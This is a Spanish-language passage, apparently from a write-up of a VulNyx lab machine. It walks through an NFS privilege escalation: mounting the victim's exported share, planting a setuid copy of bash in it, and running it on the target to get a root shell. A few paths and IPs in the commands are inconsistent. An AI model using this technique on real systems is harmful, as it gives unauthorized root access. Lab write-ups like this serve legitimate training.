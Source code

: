    - Creamos en la maquina atacante carpeta para monturas en y las montamos en /tmp:
     ```bash
     showmount -e (IP Victima)
     #/shared/tmp *

     mkdir /monturas/tmp

     mount -t nfs (IP atacante):/home/kali/vulnyx/shared/tmp /monturas/tmp

     df -h
     #de esta forma verificamos que se hayan montado con exito
     #(IP-Victima):/shared/tmp 19G 2.7G 15G 16% /home/kali/vulnyx/shared/monturas/tmp
     ```

   - Creamos un archivo bash con permisos de ejecución en la carpeta /tmp local:
     ```bash
     cd /monturas/tmp
     cp /bin/bash .
     chmod +s bash
     ```

   - Verificamos la creación y permisos del archivo en la máquina atacante:
     ```bash
     ls -l /home/kali/vulnyx/shared/tmp
     ```

   - En la máquina víctima, ejecutamos la bash con permisos de root:
     ```bash
     cd /shared/tmp
     ./bash -p
     ```

   - Ahora, en la shell como root, exploramos y obtenemos acceso total al sistema.

   **Ya somos root :D**
